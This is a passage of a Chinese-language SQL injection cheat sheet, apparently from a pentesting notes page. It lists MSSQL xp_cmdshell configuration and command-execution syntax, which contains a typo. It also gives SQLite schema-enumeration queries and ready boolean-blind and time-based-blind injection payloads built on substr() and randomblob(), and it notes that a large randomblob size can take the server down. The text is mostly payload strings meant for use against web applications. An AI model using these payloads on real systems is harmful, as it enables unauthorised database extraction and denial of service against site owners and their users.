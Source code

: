 **关闭xp_cmdshell:**

```mysql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure'xp_cmdshell', 0;
RECONFIGURE;
```

**执行命令格式：**

```mysql
xp_cmdsehll('whoami');
```

# 4 SQLite

## 4.1 常用信息及语句

**数据库版本：**
`select sqlite_version()`

**获取所有表名：**
`SELECT name FROM sqlite_master WHERE type='table'`

**所有表结构(包含字段名，表名)：**
`SELECT sql FROM sqlite_master WHERE type='table'`

**注释符：**
`--`

盲注常用函数：`substr()（没有mid、left等函数），判断长度函数length()`

## 4.2 BOOL盲注

**bool条件构造和MySQL一样，但是亦或运算的Payload不可用，注释符使用–。**

**逻辑判断目前我就翻到一个substr()，应用实例：**
`cond='FALSE' or (substr('abc',1,1)='a')`

## 4.3 延时盲注

**sqlite没有类似sleep()的函数，但有个函数randomblob(N)，生成N个任意字符，可以造成延时。**

**SQLite没有if，可以使用case when … then …**

**格式`cond='true' AND 1=(case when (bool) then randomblob(100000000) else 0 end)`**
**100000000个字符就有明显延时了。**

**注意cond为真，并且不要有太多条数据，因为有一条数据就会执行一次`randomblob(100000000)`，如果数据很多的话，服务器直接挂了。可以首先判断一下数据量，再确定N的值，比如我这里有100多条数据，就可以 `id='' or 1 AND 1=randomblob(1000000)`这样，把N的值缩小100倍。灵活运用。**

**运用实例：**

```mysql
' or 1 and 1=(case when substr('abc',1,1)='a' then randomblob(1000000) else 0 end)--
```
